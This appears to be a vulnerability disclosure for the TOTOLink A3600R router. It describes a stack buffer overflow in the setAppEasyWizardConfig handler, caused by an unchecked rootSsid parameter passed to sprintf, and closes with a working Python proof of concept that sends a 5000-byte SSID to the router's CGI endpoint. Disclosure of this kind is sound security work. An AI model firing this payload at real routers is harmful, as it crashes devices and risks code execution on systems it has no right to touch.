


# TARGET

TOTOLink A3600R Router

# BUG TYPE

Buffer Overflow

# Abstract

The TOTOlink A3600R router, firmware version V5.9c.4959, contains a buffer overflow vulnerability in the `setAppEasyWizardConfig` interface of `/lib/cste_modules/app.so`. The vulnerability occurs because the `rootSsid` parameter is not properly validated for length, allowing remote attackers to trigger a buffer overflow, potentially leading to arbitrary code execution or denial of service.

# Details

**Environment:**

* Device: TOTOlink 3600R
* Firmware version:  V5.9c.4959
* Manufacturer: [https://www.totolink.net/](https://www.totolink.net/)

**Vulnerability Analysis:**

In `setAppEasyWizardConfig`, the program reads the `rootSsid` parameter from the HTTP request  and copies it into a fixed-size stack buffer `v36` in a specific branch:

- `v36` is defined as `_DWORD v36[8]`, which corresponds to a 32-byte stack buffer;
- When the branch condition is met (i.e., `functionType >= 2` and `rootFlag == 1`), the following code is executed:

```
sprintf((char *)v36, "%s_5G", v58);  // v58 = rootSsid
```

- `sprintf` does not perform length checking. It will continue writing until the content is fully written and the null terminator `\0` is added. If the output length exceeds the actual size of `dst`, it will write beyond the buffer bounds, overwriting adjacent memory, leading to stack overflow/crash, or even control flow hijacking under certain conditions.




# POC

```http
import requests
import json
url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"
headers = {
    "Host": "192.168.0.1",
    "X-Requested-With": "XMLHttpRequest",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36 Edg/143.0.0.0",
    "Accept": "*/*",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "Origin": "http://192.168.0.1",
    "Referer": "http://192.168.0.1/internet/ipv6_wan.asp?timestamp=1768535405207",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6",
    "Cookie": "SESSION_ID=2:1768535901:2",
    "Connection": "keep-alive",
}

repeat="A" * 5000
data = {
    "topicurl": "setting/setAppEasyWizardConfig",
    "functionType": "2",
    "rootFlag": "1",
    "rootSsid": repeat,
}

payload = json.dumps(data)
response = requests.post(url, headers=headers, data=data, timeout=10)
print(response.status_code)
for k, v in response.headers.items():
    print(f"{k}: {v}")
print(response.text)
```



